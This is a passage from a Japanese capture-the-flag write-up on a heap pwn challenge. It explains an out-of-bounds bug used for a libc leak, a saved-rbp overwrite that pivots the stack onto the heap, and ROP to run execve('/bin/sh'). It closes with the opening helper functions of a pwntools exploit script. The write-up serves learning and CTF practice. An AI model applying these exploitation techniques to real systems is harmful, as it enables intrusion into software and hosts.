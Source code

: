 rspにインデックス0が来てそのまま下方向に添え字が増えていく配列になっている。ということはスタック上の値がポインタとして使えればshowやdeleteを発動することが出来る。
ここでこの図をよく観察するとオフセット0224にlibc中を指してそうなポインタが見える(pedaだと色が違うのでわかりやすい)。ここが何かはよく知らないがこれを利用してlibc leak出来る(libc+0x199e10 でオフセットが固定なので)

### ROP on Heap

さて、上で述べたOOBのおかげでnew時にインデックスに対応するスタック上にHeapのアドレスを放り込むことが出来る。これは特に意味が無さそうに見えるがmain関数内で退避させたrbpを上書きすることが出来る。これはmain関数に戻ったときには意味無いが、main関数が処理を終えて`__libc_start_main`に戻ろうとする時に効果がある。

言うまでも無いことだが、通常関数が呼び出し元に戻る時はスタックを元に戻すために次のような命令が実行される。

```
mov rsp, rbp
pop rbp
```

これは関数呼び出し時に呼び出し元のrbpをpushしているのでそれを復元する処理である。今回はこれによってrbpがHeap上のアドレスになってmainに戻る。
といってもmainも直ぐに終わってしまい`__libc_start_main+231`に戻ろうとして、再びこの2つ命令が実行される。
この時`mov rsp, rbp`によってスタックポインタが先程`rbp`に代入されたHeap上のアドレスになる。するとスタックポインタが変わったことで`pop rbp`した後のスタックトップに入っている箇所へジャンプする。
ということはこのHeap上の領域へ書き込みする際に、次のように値を入れておけばHeap上でROPをすることが出来る

```
0xdeadbeefcafebabe: pop rbpでrbpに入る値
(次に飛ばしたいアドレス、例えばpop rdi; retがあるところ)
(第一引数)
...
```

今回は`system("/bin/sh")`を実行しようとしたら何故かretを挟んでも失敗したので作問者Writeup同様`execve("/bin/sh", null, null)`を実行した。
One Gadgetはなんとなく失敗しそうなので試してない(は?)

## Code

```python
from pwn import u64, p64, process, remote, ELF


def select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(str(sel))


def new(s, idx, size, data=b"/bin/sh"):
    select(s, 1)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))
    s.recvuntil(b"size: ")
    s.sendline(str(size))
    s.recvuntil(b"data: ")
    s.send(data)


def show(s, idx):
    select(s, 2)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))
    s.recvuntil(b"[+] data: ")
    return s.recvline().rstrip()


def delete(s, idx):
    select(s, 3)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))


```